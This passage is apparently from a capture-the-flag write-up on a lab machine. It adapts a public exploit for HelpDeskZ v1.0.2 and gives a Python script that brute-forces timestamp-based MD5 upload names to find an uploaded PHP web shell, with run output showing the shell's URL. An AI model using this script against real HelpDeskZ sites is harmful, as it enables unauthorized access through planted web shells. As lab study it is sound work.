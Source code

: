 But I know the upload is there.

### Brute Upload Location

I'll start with the script from `searchsploit`:
https://www.exploit-db.com/exploits/40300

I know from the response headers that the time is off by several
minutes. I'll make a couple modifications to the script:

1\) First, the script will only find php files. I'll change it to find
whatever ext I give it.

2\) I'll open up the brute force space. By default, it starts now and
scans backwards 5 minutes. Since the box is about 8 minutes skewed, I'll
start 5 minutes ago, and go back up to 20 minutes from there.



    #!/usr/bin/env python

    import hashlib
    import time
    import sys
    import requests

    print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

    if len(sys.argv) < 3:
        print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
        sys.exit(1)

    helpdeskzBaseUrl = sys.argv[1]
    fileName = sys.argv[2]

    currentTime = int(time.time()) - 5*60
    ext = fileName.split('.')[-1]

    for x in range(0, 20*60):
        plaintext = fileName + str(currentTime - x)
        md5hash = hashlib.md5(plaintext).hexdigest()
        url = helpdeskzBaseUrl+md5hash+'.'+ext
        #print("checking " + url)
        response = requests.head(url)
        if response.status_code == 200:
            print "found!"
            print url
            sys.exit(0)

    print "Sorry, I did not find anything"



When I run it, passing in the upload path I found in the source, it
finds my shell:



    root@kali# ./exploit.py http://10.10.10.121/support/uploads/tickets/ cmd.php
    Helpdeskz v1.0.2 - Unauthenticated shell upload exploit
    found!
    http://10.10.10.121/support/uploads/tickets/30487f2924a0ae640ba2c0a54c9136f1.php
